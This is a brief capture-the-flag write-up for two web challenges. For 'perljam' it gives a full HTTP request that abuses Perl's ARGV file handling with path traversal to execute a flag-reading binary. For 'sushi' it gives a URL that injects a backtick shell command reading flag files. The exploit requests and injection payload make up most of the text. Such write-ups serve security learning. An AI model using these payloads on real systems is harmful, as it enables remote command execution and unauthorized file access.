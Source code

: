 ## Web
### perljam
* Use burpsuite to solve it.
```
POST /cgi-bin/index.cgi?../../../readflag| HTTP/1.1
Host: 104.199.235.135:31334
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,en-US;q=0.8,en;q=0.5,zh;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=---------------------------1308552532609826431173673727
Content-Length: 354

-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"
Content-Type: text/plain

ARGV
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

abcd
-----------------------------1308552532609826431173673727
```
* Reference:
https://github.com/73696e65/ctf-notes/blob/master/2016-ctf.csaw.io/web-200-i_got_id.md
### sushi
* Use command injection to solve it.
http://104.199.235.135:31333/index.php?%F0%9F%8D%A3=%22.ˋcat%20f*ˋ.%22
須將ˋ改回`
